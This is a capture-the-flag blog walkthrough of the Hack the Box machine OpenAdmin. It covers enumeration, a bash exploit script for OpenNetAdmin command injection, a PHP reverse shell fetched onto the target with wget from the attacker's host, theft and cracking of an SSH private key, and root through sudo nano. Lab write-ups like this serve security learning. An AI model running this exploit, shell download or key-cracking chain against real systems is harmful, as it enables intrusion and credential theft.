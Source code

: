+++
author = "Nick"
categories = ["hack the box", "CTF", "easy", "CVE", "reverse shell", "PHP", "curl", "ssh", "john", "ssh2john", "GTFObins", "nano"]
date = 2020-05-02T14:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2020/01/infocard.png"
slug = "hack-the-box-openadmin"
summary = "Welcome back! Today we are doing the Hack the Box machine - OpenAdmin. The machine is listed as an easy Linux machine. Let's jump in!"
tags = ["hack the box", "CTF", "easy", "CVE", "reverse shell", "PHP", "curl", "ssh", "john", "ssh2john", "GTFObins", "nano"]
title = "Hack the Box - OpenAdmin"

+++


Welcome back! Today we are doing the Hack the Box machine - OpenAdmin. The machine is listed as an easy Linux machine. Let's jump in!

As always, we do our initial `nmap` scan: `nmap -sC -sV -oA initial 10.10.10.171`

We get back some basic results:
```
Nmap scan report for 10.10.10.171
Host is up (0.055s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's see what's being hosted on port 80. We  get the defaul Apache install page. A quick peek at the source doesn't show anything unusual. We start up `gobuster` to start enumerating the service.

Command:
`gobuster dir -u 10.10.10.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

We get back two results: `music` and `artwork`. First we'll head over to `music` and take a look. We starte numerating the page manually. Looking at the source, JS libraries and the contact form. While we are doing this we see a link to `../ona`. When we browse to it we get a `OpenNetAdmin` page.

{{< figure src="__GHOST_URL__/content/images/2020/01/image-24.png" >}}

As the title of the box implies, we should start looking at this for vulnerabilities. First we'll `seachsploit` for any. If those results seems slim, we'll start looking around the net for further results.

Command:
`searchsploit opennetadmin`

{{< figure src="__GHOST_URL__/content/images/2020/01/image-25.png" >}}

We know that we are running version 18.1.1, so these all fit our criteria. Let's load up `Metasploit` and see what works for us. When we search inside `Metasploit` we don't see the module listed. Hmmm, well, let's download it from [exploit DB](https://www.exploit-db.com/exploits/47691) and import it into our `Metasploit Framework'.

To do this we need to copy the exploit from `searchsploit` into our `Metasploit Framework` directory set. Metasploit keeps the modules it uses here (on Kali Linux):

`/usr/share/metasploit-framework/modules`

Inside this path you will see that it's broken down into the module types. In this case, I'm going to copy the exploit into the `/exploits/linux/http/` location.

Command:
`cp $(locate 47772.rb) /root/.msf4/modules/exploits/linux/http/opennetadmin.rb`
then
`updatedb`

You can now relaunch `Metasploit`. Once it has been launched we issue `reload_all`. This will update our modules in all paths specified. You should see the exploit count increase by one.

Now we can `use` the module.

Command:
`use exploit/linux/http/opennetadmin`

We only need to set our `lhost` and `rhost` for this module. Then we `run` it. But nothing happens. Damn it. Re-run it, still nothing. Ok, let's try the shellscript that was shown in the earlier searchsploit results. We modify the script to look as such:

```bash
#!/bin/bash

URL="http://10.10.10.171/ona/login.php"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

{{< figure src="__GHOST_URL__/content/images/2020/01/openadmin_shell_cve.gif" >}}

Now that we have the ability to execute remote commands. Let's turn this into a shell. I tried a few things to forward a shell out but the standards didn't work. So I hosted the basic pentest monkey shell and downloaded to the target system. 

Command:
`python -m SimpleHTTPServer 80`

Then on the remote server:
`wget 10.10.14.200/sh3ll.php`

We then navigated to the `sh3ll.php` URL and obtained a reverse shell.

{{< figure src="__GHOST_URL__/content/images/2020/01/openadmin_www_shell.gif" >}}

Now that we have a more solid shell. We can enumerate internally a bit more. We host `linpeas` on our machine and download that as well. We go through the results and see some backup files:

{{< figure src="__GHOST_URL__/content/images/2020/01/image-26.png" >}}

We send these files back to our attacking machine. Turns out, they're nothing. We keep looking at the items that show in our output. We see the `database_settings.inc.php` file. We look inside and see a password.

{{< figure src="__GHOST_URL__/content/images/2020/01/image-27.png" >}}

We try to use `su` to change our user. First up, `Jimmy`. It works! We try to `SSH` as Jimmy as well, that works too. Great, no need for a webshell anymore. Now we start our enumeration process as Jimmy. We see there is something running on port 52846. We can curl it and get a login form. We know from our previous enumeration that there is a site called `internal`. Inside this are some files. `main.php`, `internal.php` and `logout.php`.

We see that the `main.php` code kicks out the content of Joanna's SSH key.

```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

So based on this we can `curl` this port and send our data. The hint is given as 'Don't forget you "ninja" password', eluding to the password we already found.

Command:
`curl -X POST -F 'username=jimmy' -F 'password=n1nj4W4rri0R!' http://127.0.0.1:52846/main.php`

We get back Joanna's SSH private key!

{{< figure src="__GHOST_URL__/content/images/2020/01/openadmin_curl_ssh.gif" >}}

With the key we now will send it through `ssh2john` and toss the rockyou list at it.

Command:
`ssh2john before_hash > cleaned_hash`

Then we'll send this file to `john` to crack.

Command:
`john cleaned_hash --wordlist=/usr/share/wordlists/rockyou.txt`

{{< figure src="__GHOST_URL__/content/images/2020/01/image-28.png" >}}

We get a password of `bloodninjas` back. Now let's try and log in as Joanna.

Command:
`ssh -i id_rsa joanna@10.10.10.171`

We enter the password when we are pompted and we are in!

{{< figure src="__GHOST_URL__/content/images/2020/01/image-29.png" >}}

Now that we're in as the 'final' user. We grab our `user.txt` file and start our root based enumeration. The first thing we do is `sudo -l`.

{{< figure src="__GHOST_URL__/content/images/2020/01/image-30.png" >}}

We see that leverage `nano` as root. Our first stop when we see this is always [GTFObins](https://gtfobins.github.io/). It seems quite a few people had issues with this. The breakdown of above is as follows:

Joanna can run `/bin/nano` as `sudo` ON the following: `/opt/priv`

{{< figure src="__GHOST_URL__/content/images/2020/01/openadmin_root_gtfo.gif" caption="Laggy root shell" >}}

Another box down! This box was particularly unstable. Hopefully something was learned during this machine! If this walkthrough helped you, send some respect my way :) [HTB Profile](https://www.hackthebox.eu/home/users/profile/95635)



